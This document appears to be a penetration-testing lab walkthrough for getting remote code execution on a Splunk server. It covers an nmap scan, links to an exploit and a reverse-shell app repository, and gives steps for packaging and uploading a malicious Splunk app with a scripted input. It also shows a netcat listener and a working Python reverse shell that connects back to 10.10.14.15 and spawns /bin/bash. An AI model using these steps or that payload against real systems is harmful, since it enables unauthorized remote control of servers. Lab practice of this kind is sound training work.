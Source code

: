 #### Nmap service scan
```Shell
nmap -sV 10.129.201.50
```
Identified the `Splunkd httpd `service on port 8000 and port 8089, the Splunk management port for communication with the Splunk REST API

### Enumeration
- A common method of gaining remote code execution on a Splunk server is through the use of a scripted input
- Every Splunk installation comes with Python installed, so Python scripts can be run on any Splunk system
- A quick way to gain RCE is by creating a scripted input that tells Splunk to run a Python reverse shell script
- [SSRF Exploit](https://www.exploit-db.com/exploits/40895)

## Attacking Splunk
https://github.com/0xjpuff/reverse_shell_splunk

#### Create a custom Splunk application
```Shell
tree splunk_shell/
```
The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file

#### Edit the PowerShell script to contain IP and Port, then create a tarball or `.spl` file
```Shell
tar -cvzf updater.tar.gz splunk_shell/
```

#### Choose `Install app from file` and upload the application
![[Pasted image 20230221135829.png]]

#### Before uploading the malicious custom app, start a listener using Netcat or socat
```Shell
nc -lnvp 443
```

#### On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`
![[Pasted image 20230221135947.png]]

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

#### Python script if dealing with a Linux host
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
Create a tarball as seen in the Windows example and upload the script
